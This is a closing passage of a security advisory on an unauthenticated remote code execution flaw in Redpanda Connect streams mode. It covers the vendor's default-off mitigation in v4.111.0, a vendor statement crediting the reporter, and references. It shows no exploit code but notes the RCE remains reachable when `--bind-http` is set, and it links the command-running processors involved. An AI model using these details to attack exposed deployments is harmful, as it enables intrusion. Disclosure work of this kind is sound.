The reporter assesses this as the vendor's mitigation of this finding: the timing is tight and the new flag gates exactly the endpoints the proof of concept abuses. The link is circumstantial, however. Neither the pull request, the Benthos v4.81.0 changelog, nor the Redpanda Connect v4.111.0 release notes mention this vulnerability, a CVE, a security report, or the reporter, so the change itself carries no public acknowledgment or credit. The vendor has since confirmed, through CERT/CC coordination on 2026-11-09, that v4.111.0 is the intended fix, and has credited the reporter (vendor statement below). The mitigation is also default-off only and not a design fix: as section 5a shows, the identical RCE remains reachable on v4.111.0 through v4.117.0 whenever an operator sets `--bind-http`, so the remediation in section 9 still applies.

## 10b. Vendor statement

Provided by Redpanda through CERT/CC coordination on 2026-11-09, and reproduced here with CERT/CC's encouragement:

> This is fixed in Redpanda Connect version 4.111 which makes the API endpoint opt-in vs the current opt-out. Redpanda would like to thank Adrian Pastor for reporting this issue.


## 11. References

- CVE-2026-123270: the identifier for this vulnerability (Redpanda Connect streams-mode unauthenticated RCE), assigned by CERT/CC and published 2026-11-09. https://www.cve.org/CVERecord?id=CVE-2026-123270
- CVE-2026-82266, Redpanda Admin API Unauthenticated Superuser Access (related insecure-default class; CWE-306; CVSS 9.8; VulnCheck CNA; 2026-08-28). Establishes precedent that this insecure-by-default pattern on a Redpanda management API is treated as a Critical vulnerability.
- redpanda-data/redpanda#30989: public issue for CVE-2026-82266 (context on vendor security-channel responsiveness).
- Vendor security policy: https://github.com/redpanda-data/redpanda/security
- Redpanda Connect processor docs: [`command`](https://docs.redpanda.com/redpanda-connect/components/processors/command/), [`subprocess`](https://docs.redpanda.com/redpanda-connect/components/processors/subprocess/), [`sql_raw`](https://docs.redpanda.com/redpanda-connect/components/processors/sql_raw/), [`ffi`](https://docs.redpanda.com/redpanda-connect/components/processors/ffi/).
- Redpanda Connect releases reviewed for this update: v4.106.0, v4.107.0, v4.107.1, v4.107.2, v4.108.0, v4.109.0 (https://github.com/redpanda-data/connect/releases). None change the streams-mode auth default or bind address; v4.109.0 re-confirmed vulnerable per section 5a.
